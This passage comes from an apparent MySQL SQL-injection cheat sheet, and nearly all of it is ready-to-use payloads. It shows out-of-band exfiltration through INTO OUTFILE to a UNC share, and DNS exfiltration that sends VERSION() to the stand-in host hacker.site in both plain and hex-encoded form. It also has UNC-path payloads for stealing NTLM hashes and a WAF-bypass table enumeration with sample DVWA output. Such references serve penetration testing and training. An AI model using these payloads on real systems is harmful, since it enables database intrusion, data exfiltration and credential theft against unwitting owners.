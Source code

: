 ```powershell
SELECT @@version INTO OUTFILE '\\\\192.168.0.100\\temp\\out.txt';
SELECT @@version INTO DUMPFILE '\\\\192.168.0.100\\temp\\out.txt;
```

### DNS Exfiltration

```sql
SELECT LOAD_FILE(CONCAT('\\\\',VERSION(),'.hacker.site\\a.txt'));
SELECT LOAD_FILE(CONCAT(0x5c5c5c5c,VERSION(),0x2e6861636b65722e736974655c5c612e747874))
```

### UNC Path - NTLM Hash Stealing

The term "UNC path" refers to the Universal Naming Convention path used to specify the location of resources such as shared files or devices on a network. It is commonly used in Windows environments to access files over a network using a format like `\\server\share\file`.

```sql
SELECT LOAD_FILE('\\\\error\\abc');
SELECT LOAD_FILE(0x5c5c5c5c6572726f725c5c616263);
SELECT '' INTO DUMPFILE '\\\\error\\abc';
SELECT '' INTO OUTFILE '\\\\error\\abc';
LOAD DATA INFILE '\\\\error\\abc' INTO TABLE DATABASE.TABLE_NAME;
```

:warning: Don't forget to escape the '\\\\'.


## MYSQL WAF Bypass

### Alternative to Information Schema

`information_schema.tables` alternative

```sql
SELECT * FROM mysql.innodb_table_stats;
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| database_name  | table_name            | last_update         | n_rows | clustered_index_size | sum_of_other_index_sizes |
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+
| dvwa           | guestbook             | 2017-01-19 21:02:57 |      0 |                    1 |                        0 |
| dvwa           | users                 | 2017-01-19 21:03:07 |      5 |                    1 |                        0 |
...
+----------------+-----------------------+---------------------+--------+----------------------+--------------------------+

mysql> SHOW TABLES IN dvwa;
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+
```
